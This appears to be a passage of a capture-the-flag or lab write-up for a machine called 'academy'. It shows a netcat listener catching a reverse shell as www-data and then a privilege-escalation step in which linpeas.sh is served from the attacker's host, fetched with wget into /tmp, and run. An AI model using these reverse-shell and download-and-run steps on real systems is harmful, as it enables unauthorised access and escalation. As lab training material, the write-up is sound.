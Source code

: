 ```jsx
**┌──(root㉿wahaj)-[/home/wahaj/Desktop]
└─# nc -lvp 1234    
listening on [any] 1234 ...
192.168.1.107: inverse host lookup failed: Unknown host
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.107] 55133
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 06:22:17 up  1:04,  1 user,  load average: 0.00, 0.54, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                10:18   14:41   0.04s  0.01s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data**
```

and boom, we have access

<aside>
💡 we dont have sudo access, so we cant check our permissions.

</aside>

# Privilege Escalation

<aside>
💡 Get linpeas from
[https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh)

</aside>

I have the file in my transfers folder, so lets up a server on there

```jsx
┌──(wahaj㉿wahaj)-[/transfers]
└─$ sudo python3 -m http.server 80  
[sudo] password for wahaj: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Uploading the payload on the /tmp folder in the website

```jsx
**$ cd /tmp
$ pwd
/tmp
$ wget http://192.168.1.107/linpeas.sh
--2023-07-29 06:36:26--  http://192.168.1.107/linpeas.sh
Connecting to 192.168.1.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134167 (131K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... .......... 38% 11.4M 0s
    50K .......... .......... .......... .......... .......... 76% 66.4M 0s
   100K .......... .......... .......... .                    100%  247M=0.005s

2023-07-29 06:36:26 (24.8 MB/s) - 'linpeas.sh' saved [134167/134167]
$ chmod +x linpeas.sh
$ ./linpeas.sh**

```
